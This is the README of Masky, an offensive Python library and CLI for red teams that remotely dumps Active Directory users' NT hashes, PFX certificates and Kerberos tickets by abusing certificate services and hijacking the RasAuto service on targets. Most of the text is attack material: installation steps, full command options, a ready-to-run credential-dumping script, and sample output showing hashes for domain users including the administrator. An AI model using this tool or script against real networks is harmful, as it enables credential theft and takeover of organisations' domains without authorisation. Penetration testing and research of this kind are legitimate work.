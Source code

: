 # Masky

[![PyPI version](https://badge.fury.io/py/masky.svg)](https://badge.fury.io/py/masky)
[![Twitter](https://img.shields.io/twitter/follow/_ZakSec?label=Zak&style=social)](https://twitter.com/intent/follow?screen_name=_ZakSec)

Masky is a python library providing an alternative way to remotely dump domain users' credentials thanks to an ADCS. A command line tool has been built on top of this library in order to easily gather PFX, NT hashes and CCACHE on a larger scope.

This tool does not exploit any new vulnerability. Indeed, it only take advantage on legit Windows and Active Directory features. A blog post was published to detail the implemented technics and how the Masky works.

Masky source code is largely based on the amazing [Certify](https://github.com/GhostPack/Certify) and [Certipy](https://github.com/ly4k/Certipy) tools. I really thanks their authors for the associated research regarding offensive exploitation technics against ADCS (see. Acknowledgement section). 

## Installation

Masky python3 library and its associated CLI can be simply installed via the public PyPi repository as following:
```
pip install masky
```

Moreover, the Masky agent in C# can be compiled via a Visual Studio project located in `agent/Masky.sln`. It would requires `.NET Framework 4` to be built.

## Usage

Masky has been designed as a Python library. Moreover, a command line interface was created on top of it to ease its usage during pentest or RedTeam activities.

For both usages, you need first to retrieve the FQDN of a `CA server` and its `CA name` deployed via an ADCS. This information can be easily retrieved via the `certipy find` option or via the Microsoft built-in `certutil.exe` tool. Make sure that the default `User` template is enabled on the targeted CA.

Warning: Masky deploys an executable on each target via a modification of the existing `RasAuto` service. Despite the automated roll-back of its intial `ImagePath` value, an unexpected error during Masky runtime could skip the cleanup phase. Therefore, do not forget to manually reset the original value in case of such unwanted stop.

### Command line

The following demo shows a basic usage of Masky by targeting 4 remote systems. Its execution allows to collect NT hashes, CCACHE and PFX of 3 distincts domain users from the sec.lab testing domain.

<p align="center">
  <img src="./assets/masky_demo.gif" alt="Masky CLI demo" />
</p>


Masky also provides options that are commonly provided by such tools (thread number, authentication mode, targets loaded from files, etc. ).

```
  __  __           _
 |  \/  | __ _ ___| | ___   _
 | |\/| |/ _` / __| |/ / | | |
 | |  | | (_| \__ \   <| |_| |
 |_|  |_|\__,_|___/_|\_\__,  |
  v0.0.3                 |___/

usage: Masky [-h] [-v] [-ts] [-t THREADS] [-d DOMAIN] [-u USER] [-p PASSWORD] [-k] [-H HASHES] [-dc-ip ip address] -ca CERTIFICATE_AUTHORITY [-nh] [-nt] [-np] [-o OUTPUT]
             [targets ...]

positional arguments:
  targets               Targets in CIDR, hostname and IP formats are accepted, from a file or not

options:
  -h, --help            show this help message and exit
  -v, --verbose         Enable debugging messages
  -ts, --timestamps     Display timestamps for each log
  -t THREADS, --threads THREADS
                        Threadpool size (max 15)

Authentication:
  -d DOMAIN, --domain DOMAIN
                        Domain name to authenticate to
  -u USER, --user USER  Username to authenticate with
  -p PASSWORD, --password PASSWORD
                        Password to authenticate with
  -k, --kerberos        Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters.
  -H HASHES, --hashes HASHES
                        Hashes to authenticate with (LM:NT, :NT or :LM)

Connection:
  -dc-ip ip address     IP Address of the domain controller. If omitted it will use the domain part (FQDN) specified in the target parameter
  -ca CERTIFICATE_AUTHORITY, --certificate-authority CERTIFICATE_AUTHORITY
                        Certificate Authority Name (SERVER\CA_NAME)

Results:
  -nh, --no-hash        Do not request NT hashes
  -nt, --no-ccache      Do not save ccache files
  -np, --no-pfx         Do not save pfx files
  -o OUTPUT, --output OUTPUT
                        Local path to a folder where Masky results will be stored (automatically creates the folder if it does not exit)
```

### Python library

Below is a simple script using the Masky library to collect secrets of running domain user sessions from a remote target.

```python
from masky import masky
from getpass import getpass


def dump_nt_hashes():
    # Define the authentication parameters
    ca = "srv-01.sec.lab\sec-SRV-01-CA"
    dc_ip = "192.168.23.148"
    domain = "sec.lab"
    user = "askywalker"
    password = getpass()

    # Create a Masky instance with these credentials
    m = masky(ca, user, dc_ip=dc_ip, domain=domain, password=password)

    # Set a target and run Masky against it
    target = "192.168.23.130"
    rslts = m.run(target)

    # Check if Masky succesfully hijacked at least a user session
    # or if an unexpected error occured
    if not rslts:
        return False

    # Loop on MaskyResult object to display hijacked users and to retreive their NT hashes
    print(f"Results from hostname: {rslts.hostname}")
    for user in rslts.users:
        print(f"\t - {user.domain}\{user.name} - {user.nt_hash}")

    return True


if __name__ == "__main__":
    dump_nt_hashes()
```

Its execution generate the following output.

```
$> python3 .\masky_demo.py
Password:
Results from hostname: SRV-01
         - sec\hsolo - 05ff4b2d523bc5c21e195e9851e2b157
         - sec\askywalker - 8928e0723012a8471c0084149c4e23b1
         - sec\administrator - 4f1c6b554bb79e2ce91e012ffbe6988a
```

A `MaskyResults` object containing a list of `User` objects is returned after a successful execution of Masky. 

Please look at the `masky\lib\results.py` module to check the methods and attributes provided by these two classes.


## Acknowledgments

- [Olivier Lyak](https://twitter.com/ly4k_) for the [Certipy](https://github.com/ly4k/Certipy) tool and the [associated articles](https://medium.com/@oliverlyak)
- [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin_) for the [Certify](https://github.com/GhostPack/Certify) tool and the [Certified Pre-Owned](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf) article
- [Dirk-jan](https://twitter.com/_dirkjan) for the [PKINITtools](https://github.com/dirkjanm/PKINITtools) and its [ADCS NTLM relay](https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/) article
- [SecureAuthCorp](https://github.com/SecureAuthCorp) and the associated contributors for the [Impacket](https://github.com/SecureAuthCorp/impacket) library
- [Pixis](https://github.com/Hackndo/lsassy) for the tool [Lsassy](https://github.com/Hackndo/lsassy)
- Incognito tool and its [Metasploit implementation](https://github.com/rapid7/metasploit-payloads/blob/master/c/meterpreter/source/extensions/incognito/)